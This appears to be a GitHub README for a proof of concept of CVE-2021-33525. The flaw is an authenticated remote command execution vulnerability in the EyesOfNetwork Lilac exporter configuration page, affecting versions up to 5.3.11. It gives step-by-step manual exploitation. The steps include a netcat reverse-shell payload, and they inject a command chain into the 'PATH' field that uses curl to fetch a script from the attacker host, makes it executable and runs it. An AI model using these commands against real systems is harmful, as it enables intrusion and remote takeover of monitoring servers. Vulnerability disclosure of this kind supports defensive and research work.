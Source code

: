 # LilacPathVUln
CVE-2021-33525
```
###############################################
#              (Authentified)                 #
#         Remote Commande Execution           #
#               EyesOfNetwork                 #
#                                             #
#      Impacted version * =/>  5.3.11         #
#               ...........                   #
#                                             #
#         Scripted on 05/22/2021              #
#              By ArianeBlow                  #
#                                             #
###############################################
```

The Eyes Of Network Lilac exporter configuration page contain a Remote Commande Execution vulnerability. 

The PoC's working fine, (sometime you must have to lunch the script twice ... It's juste a PoC in BASH right !

Can be abused manually :

Create a bash script for payload (exemple : nc -e /bin/sh LHOST LPORT) and start an http server in the same directory.

Go on EyesOfNetwork Lilac exporter config page : https://RHOST/lilac/export.php.

Create a new config and modify the "PATH" (at the end of the webpage) and put the commande after the original line like that for exemple : 
```
/srv/eyesofnetwork/nagios/bin/nagios -v /tmp/lilac-export-33/nagios.cfg && curl http://LHOST:LPORT/test.sh -o /tmp/lilac-export-2/test.sh && chmod +x /tmp/lilac-export-2/test.sh && cd /tmp/lilac-export-2/ && ./test.sh
```
Start your listener and lunch the export config.
Voila !
